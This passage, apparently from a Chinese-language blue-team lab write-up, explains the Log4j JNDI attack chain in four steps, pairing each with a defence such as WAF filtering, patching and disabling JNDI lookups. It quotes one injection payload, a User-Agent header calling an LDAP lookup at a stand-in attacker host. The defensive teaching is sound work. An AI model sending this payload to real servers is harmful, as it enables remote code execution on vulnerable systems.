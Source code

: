 [![suricata_1](https://asciinema.org/a/xTLsXXee7p9uUiyjwEX0vKkXo.svg)](https://asciinema.org/a/xTLsXXee7p9uUiyjwEX0vKkXo)

##### 蓝队-漏洞利用防御与加固

这张图表展示了Log4j JNDI攻击的原理和防御方法：

![log4j2_4](../img/lihan3238_doc/log4j2_4.png)

1. **攻击者发起请求**
攻击者在 HTTP 请求的头字段（例如 User-Agent）中插入一个包含 JNDI 查找的字符例：`User-Agent: ${jndi:ldap://evil.xa/x}`
*防御措施：使用 WAF（Web应用防火墙）拦截此类恶意请求。*

2. **易受攻击的服务器接收请求**
易受攻击的服务器接收到请求，并将包含 JNDI 查找的字符串传递给 Log4j 进行日志记录。
*防御措施：禁用 Log4j 或更新 Log4j 到修复版本。*

3. **Log4j 处理请求**
log4j 解释该字符串，并尝试查询恶意的 LDAP 服务器以获取更多信息。
*防御措施：禁用JNDI查找功能。*

4. **查询恶意 LDAP 服务器**
Log4j 向恶意 LDAP 服务器发送查询请求，获取恶意的 Java 类。
*防御措施：确保 LDAP 查询指向可信的内部服务器或禁用远程代码库。*
